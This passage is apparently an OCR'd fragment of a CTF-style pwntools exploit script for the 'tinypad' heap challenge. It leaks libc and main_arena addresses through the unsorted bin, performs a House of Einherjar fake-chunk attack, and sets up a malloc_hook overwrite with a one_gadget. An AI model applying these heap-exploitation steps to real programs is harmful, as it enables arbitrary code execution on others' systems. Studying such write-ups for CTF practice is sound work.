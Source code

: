 ```python
    # first idx0 will go to unsorted bin
    # second idx1 will merge with idx0(unlink), and point to idx0
    # third idx1 will merge into top chunk
    # but cause unlink feture, the idx0's fd and bk won't change
    # so idx0 will leak the unsorted bin addr
    delete(3)
    p.recvuntil(' # CONTENT: ')
    data = p.recvuntil('\n', drop=True)
    unsorted_offset_arena = 8 + 10 * 8
    main_arena = u64(data.ljust(8, '\x00')) - unsorted_offset_arena
    libc_base = main_arena - main_arena_offset
    log.success('main arena addr: ' + hex(main_arena))
    log.success('libc base addr: ' + hex(libc_base))

    # 3. house of einherjar
    add(0x18, 'a' * 0x18)  # idx 0
    # we would like trigger house of einherjar at idx 1
    add(0x100, 'b' * 0xf8 + '\x11')  # idx 1
    add(0x100, 'c' * 0xf8)  # idx 2
    add(0x100, 'd' * 0xf8)  #idx 3

    # create a fake chunk in tinypad's 0x100 buffer, offset 0x20
    tinypad_addr = 0x602040
    fakechunk_addr = tinypad_addr + 0x20
    fakechunk_size = 0x101
    fakechunk = p64(0) + p64(fakechunk_size) + p64(fakechunk_addr) + p64(
        fakechunk_addr)
    edit(3, 'd' * 0x20 + fakechunk)

    # overwrite idx 1's prev_size and
    # set minaddr of size to '\x00'
    # idx 0's chunk size is 0x20
    diff = heap_base + 0x20 - fakechunk_addr
    log.info('diff between idx1 and fakechunk: ' + hex(diff))
    # '\0' padding caused by strcpy
    diff_strip = p64(diff).strip('\0')
    number_of_zeros = len(p64(diff)) - len(diff_strip)
    for i in range(number_of_zeros + 1):
        data = diff_strip.rjust(0x18 - i, 'f')
        edit(1, data)
    delete(2)
    p.recvuntil('\nDeleted.')

    # fix the fake chunk size, fd and bk
    # fd and bk must be unsorted bin
    edit(4, 'd' * 0x20 + p64(0) + p64(0x101) + p64(main_arena + 88) +
         p64(main_arena + 88))

    # 3. overwrite malloc_hook with one_gadget

    one_gadget_addr = libc_base + 0x45216
    environ_pointer = libc_base + libc.symbols['__environ']
    log.info('one gadget addr: ' + hex(one_gadget_addr))
    log.info('environ pointer addr: ' + hex(environ_pointer))
    #fake_malloc_chunk = main_arena - 60 + 9
    # set memo[0].size = 'a'*8,
    # set memo[0].content point to environ to leak environ addr
    fake_pad = 'f' * (0x100 - 0x20 - 0x10) + 'a' * 8 + p64(
        environ_pointer) + 'a' * 8 + p64(0x602148)
    # get a fake chunk
    add(0x100 - 8, fake_pad)  # idx 2
    #gdb.attach(p)

```